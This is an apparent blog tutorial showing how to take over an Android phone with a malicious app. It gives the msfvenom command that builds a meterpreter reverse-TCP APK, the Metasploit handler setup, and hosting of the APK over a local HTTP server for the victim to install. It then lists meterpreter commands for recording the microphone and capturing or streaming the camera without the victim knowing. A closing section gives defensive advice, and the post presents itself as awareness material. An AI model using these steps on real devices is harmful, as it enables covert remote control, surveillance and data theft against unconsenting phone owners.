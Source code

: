 
<p><span style="float: left; width: 0.8em; font-size: 600%; font-family: courier new, courier; line-height: 80%;">W</span>hat can happen to your android phone when you download an android application from an untrusted source? What would be its impact on your phone? Well, the results are pretty scary. You won't even know what is going on in the background of your android phone when you download a malicious application.</p>

<p>In this article, we will learn how an attacker can take over control on your phone when you install an application from untrusted sources. We will learn about the approach he/she can take and the results. So, let's begin.</p>

<p><em><strong>Note:</strong> Before we proceed, please keep in mind that this tutorial/article is just for an educational purpose. This is to make everyone aware about the consequences of using android application from an untrusted/unknown sources.</em></p>

<p>I will be performing the process in my own network only. But, one can perform the attack process in any network either LAN or WAN (External network). In this process, three actors are involved:</p>

<ul id="block-400dce76-fd3e-48ca-9918-fe47222769a8"><li>Kali Linux Machine<strong> (Attacker)</strong></li><li>Malicious Android application<strong> (APK)</strong></li><li>Android Phone<strong> (Victim)</strong></li></ul>

<p><em><strong>Note:</strong> Attacker and Victim are on the same network here i.e. 192.168.172.x.</em></p>

<p><strong>Step-1: Creating Malicious Payload</strong></p>

<p>You need to create a malicious android payload first. For this, login to your Kali Linux machine and follow the below command (Hope you already have installed the Kali Linux in your PC. If not, you can find tons of tutorial for installing Kali Linux over internet. I will not be wasting your time here :-D)</p>

<p><strong>#<code>msfvenom -p android/meterpreter/reverse_tcp LHOST=&lt;ip-address&gt; LPORT=&lt;any unused port&gt; -f raw &gt; myandroid.apk</code></strong></p>

![image-1](https://user-images.githubusercontent.com/92144178/136511602-460ffb67-f397-43f4-9dc5-80336e06afc8.png)

<p>"<em>Msfvenom, here is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.</em>"</p>

<strong>•	-p:</strong> Payload <br><strong>•	LHOST:</strong> Local Host <br><strong>•	LPORT:</strong> Local Port <br><strong>•	-f:</strong> Format
 

<p><strong>Step-2: Launch Metasploit Framework</strong></p>

<p>Once you create your own APK, it's time launch metasploit framework using msfconsole command in Kali linux machine.</p>

<p>"<em>The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection.</em>"</p>

<p>Once the Metasploit framework is launched, you need to use multi/handler, which is a stub that handles exploits launched outside of the framework.</p>

![image-2](https://user-images.githubusercontent.com/92144178/136511950-a4fd8947-33f7-4ae3-b1e3-0650d921a334.png)

<p><em><strong>Note:</strong> Make sure you're using the same payload which you have used while creating the malicious apk in Step-1.</em></p>

<p><strong>Step-3: Host the Malicious Android Application</strong></p>

<p>Now, handler is running. You need to host your malicious android application to somewhere so that victim can download it in his/her android phone.</p>

<p>As this process is only for our own network, you can host it there only. For this you can use one python's module called SimpleHTTPServer.</p>

<p>"<em>Python’s SimpleHTTPServer is the classic quick solution for serving the files in a directory via HTTP (often, you’ll access them locally, via localhost).</em>"</p>

<p><strong>#<code>python -m SimpleHTTPServer 8080</code></strong></p>

![image-3](https://user-images.githubusercontent.com/92144178/136512500-039235d0-94dc-42bc-9719-1e1cdd726000.png)

<p><em><strong>Note:</strong> The above command should be run under the same directory where the malicious android application is kept.</em></p>

<p><strong>Step-4: Download the Hosted Malicious APK on Android Phone</strong></p>

<p>Now, download the malicious android application using the following URL in your android phone's browser. <em>(Please remember the IP address in the URL is your Kali Linux machine local IP address)</em></p>

<p><strong><code>http://192.168.172.32:8080/myandroid.apk</code></strong></p>

![Screenshot_20211007-131743_Chrome](https://user-images.githubusercontent.com/92144178/136513557-054fb4a3-ad08-4ebb-81fa-9d08e687fc6c.jpg)
<br>
<p>Once the hosted APK is accessed from your android phone, you can see the logs generated in Kali Linux for SimpleHTTPServer.</p>

![simple-http-server-log](https://user-images.githubusercontent.com/92144178/136512906-a0d5fcd8-d392-42f9-a399-3dd439cae55e.png)


<p><strong>Step-5: Install and Access the Android Application</strong></p>

<p>Once the apk is downloaded, install it and click on it.</p>

![combined-package-installer-and-file-resized-2](https://user-images.githubusercontent.com/92144178/136516291-b3873611-e311-4f58-9bff-560e8cdcf2f3.jpg)


<p><strong>Step-6: Et Voilà !..You Got the Control</strong></p>

<p>Once you click on the application, you can look into your Kali Linux machine. You must have got the meterpreter session. That means, you have the control on victim's android phone.</p>

![image-4](https://user-images.githubusercontent.com/92144178/136516512-5136ce39-c12f-40f5-a57a-ccb6b62fbf27.png)

<p><strong>Step-7: Get Ready for the Killing</strong></p>

<p>Now, you can type "help" command to see what you can do with the victim's phone.</p>

![help-all-combined](https://user-images.githubusercontent.com/92144178/136519833-ceb86a4e-0e2b-4133-bafe-76c85cb73274.png)

<p><strong>Step-8: Sneak Peek</strong></p>

<p>As you can see, you can run numerous commands on the hacked android phone. You can dump all the contact numbers, SMS and other sensitive data. You can record the audio, switch ON the camera and even run a live webcam on victim's phone. Victim will be totally unaware about it. Here're the command below you can run to check:</p>

<p><strong>meterpreter&gt;record_mic</strong>  --&gt; To record the audio</p>
<p><strong>meterpreter&gt;webcam_snap</strong>  --&gt; To capture the image from the camera</p>
<p><strong>meterpreter&gt;webcam_stream</strong>  --&gt; To run live camera/video</p>

<p>As you can see, how scary it can be if you download the android application from unknown/untrusted sources.</p>
<br>
<p><strong>Conclusion</strong></p>

<p>So, what we learned from the activity we've done is:</p>

<ul><li>Never download any android application from unknown/untrusted sources.</li><li>Always download the application from Google Play Store.</li><li>Make sure your installed application gets scanned with Google Play Protect.</li><li>Disable Installation of Unknown applications in phone Settings.</li></ul>


<p>So, this is it for now. I hope this article was insightful. In the 2nd part, we will learn more sophisticated way to create malicious android application. Stay tuned..!!</p>
<br>
<p><strong>Reference</strong></p>

<li><a href="https://www.offensive-security.com/metasploit-unleashed/">https://www.offensive-security.com/metasploit-unleashed/</a></li>

<br>
<p><strong>Upcoming Blog - How to Hack an Android Phone using an Malicious Android Application (Part-2)</strong></p>
<br>
<script src="https://utteranc.es/client.js"
        repo="vinagrsec/android-hacking"
        issue-term="pathname"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


